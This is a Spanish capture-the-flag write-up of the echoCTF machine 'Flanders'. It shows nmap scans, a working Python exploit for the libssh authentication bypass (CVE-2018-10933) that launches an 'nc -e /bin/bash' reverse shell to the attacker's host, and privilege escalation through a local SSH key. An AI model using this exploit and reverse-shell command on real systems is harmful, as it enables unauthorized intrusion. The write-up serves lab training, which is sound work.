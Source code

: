 ```yaml
---
tags:
  - SSH Authentication Bypass (libssh)
---
```


# Flanders <!-- omit from toc -->


Write-up de la máquina Flanders de [echoCTF](https://echoCTF.red).

![Cover de Flanders](images/cover.png)


## Índice <!-- omit from toc -->


- [Introducción](#introducción)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios (nombre - puerto)](#servicios-nombre---puerto)
    - [ssh - 6022](#ssh---6022)
      - [Manual](#manual)
- [Explotación](#explotación)
  - [libSSH Authentication Bypass](#libssh-authentication-bypass)
    - [Pasos previos | Preparación](#pasos-previos--preparación)
    - [Ejecución](#ejecución)
- [Post Explotación](#post-explotación)
  - [Enumeración](#enumeración-1)
  - [Escalación de privilegios](#escalación-de-privilegios)
    - [ETSCTF → root](#etsctf--root)
  - [Ubicación de banderas](#ubicación-de-banderas)


## Introducción


### Estadísticas


| Característica | Descripción |
|---|---|
| Nombre | [Flanders](https://echoctf.red/target/13) |
| Dificultad | Basic |
| Banderas | 4 (2 system, env, root) |
| Puntos | 4,800 pts (system/1,000 pts, system/1,300 pts, env/900 pts, root/1,500 pts) |
| Descripción / Pistas | Flanders simple and kind, always ready to to give a helping hand. His favorite catch phrase is `Okily Dokily`. Catch phrase sounds like a pass phrase, only without space |


## Reconocimiento


### Escaneo de host


#### Escaneo completo de puertos


```bash
❯ sudo nmap -T5 -open -vvv --min-rate=5000 -p- -n -Pn -oG nmap/all_ports $BOX_TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:35 CDT
Initiating SYN Stealth Scan at 09:35
Scanning 10.0.100.34 [65535 ports]
Discovered open port 6022/tcp on 10.0.100.34
Completed SYN Stealth Scan at 09:35, 14.77s elapsed (65535 total ports)
Nmap scan report for 10.0.100.34
Host is up, received user-set (0.14s latency).
Scanned at 2021-10-27 09:35:04 CDT for 15s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT     STATE SERVICE REASON
6022/tcp open  x11     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.11 seconds
           Raw packets sent: 72729 (3.200MB) | Rcvd: 70809 (2.832MB)
```


#### Escaneo específico


```bash
❯ nmap -sCV -p 6022 -oN nmap/targeted $BOX_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-27 09:48 CDT
Nmap scan report for 10.0.100.34
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
6022/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
| ssh-hostkey:
|_  2048 9c:42:2e:fa:60:30:95:dd:a0:60:80:1f:fd:ae:77:86 (RSA)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.85 seconds
```


## Enumeración


### Servicios (nombre - puerto)


#### ssh - 6022


##### Manual


Dado el reconocimiento por medio de `nmap` se puede identificar que se está corriendo un servidor `ssh` en un puerto no convencional y se expone la versión `libssh 0.8.1`, después de una búsqueda se puede identificar que la versión expuesta cuenta con una vulnerabilidad la cuál explota un bypass de autenticación, reportada en el [CVE-2018-10933](https://nvd.nist.gov/vuln/detail/CVE-2018-10933).

Se encontraron diversos scripts en python que abusan de la vulnerabilidad:

- https://www.exploit-db.com/exploits/45638
- https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d


## Explotación


### libSSH Authentication Bypass


#### Pasos previos | Preparación


Como parte de los scripts buscados se encontró el siguiente código en un script que resultó bastante simple de ejecutar, únicamente realizando los cambios pertinentes de ip, puerto y comando (entablando una reverse shell).

**Script**
```python
#!/usr/bin/python3

import sys
import paramiko
import socket

s=socket.socket()
s.connect(("10.0.100.34",6022))
m=paramiko.message.Message()
t=paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
t._send_message(m)
c=t.open_session(timeout=5)
c.exec_command("nc -e /bin/bash 10.10.0.26 1234")
out=c.makefile("rb",2048)
output=out.read()
out.close()
print (output)
```


#### Ejecución


![exploit_1](./images/exploit_1.png)

1. Ejecución de script.
2. Listener de reverse shell.


## Post Explotación


### Enumeración


Realizando enumeración manual se puede observar que el directorio principal del usuario al que se accede `ETSCTF` contiene una llave `ssh` que a primera impresión apuntaría a un método de escalación de privilegios a `root`.

![post_1](./images/post_1.png)

1. Directorio.
2. Llave.
3. Usuario al que pertenece.


### Escalación de privilegios


#### ETSCTF &rarr; root


La idea inicial a seguir sería extraer la llave encontrada para intentar acceder al sistema con ella, dado que ningún intento funcionó, se puede tratar de ubicar si existe algún otro medio de acceso a la máquina por el cuál esté restringida a conexiones provenientes únicamente desde local, es decir, de `flanders` hacia `flanders`. Para comprobar esto se puede buscar si algún servicio de `ssh` está ejecutandose y si existe algún puerto que esté a la escucha de nuevas conexiones.

![post_2](./images/post_2.png)

La salida del comando mapea automáticamente los puertos comúnes para el servicio siendo así que `127.0.0.1:ssh` sería lo mismo que `127.0.0.1:22`, verificando de esta manera que se escuchan conexiones `ssh` localmente.

![post_3](./images/post_3.png)

En esta comprobación se puede ver que se está ejecutando `sshd` correspondiente al servidor de `ssh` en linux.

Se suelen proteger las llaves `ssh` con passphrases y observando que en la descripción de la máquina se proporciona una passphrase (`Okily Dokily`) se pudiera concluir que al hacer uso de la llave se pedirá.

![post_4](./images/post_4.png)

Logrando así satisfactoriamente la escalación de privilegios.

![post_5](./images/post_5.png)


### Ubicación de banderas


1. `/etc/passwd`.
2. `/etc/shadow`.
3. Extrayendo las variables de entorno de los procesos en ejecución con `strings /proc/*/environ | grep ETSCTF`.
4. `/root`.
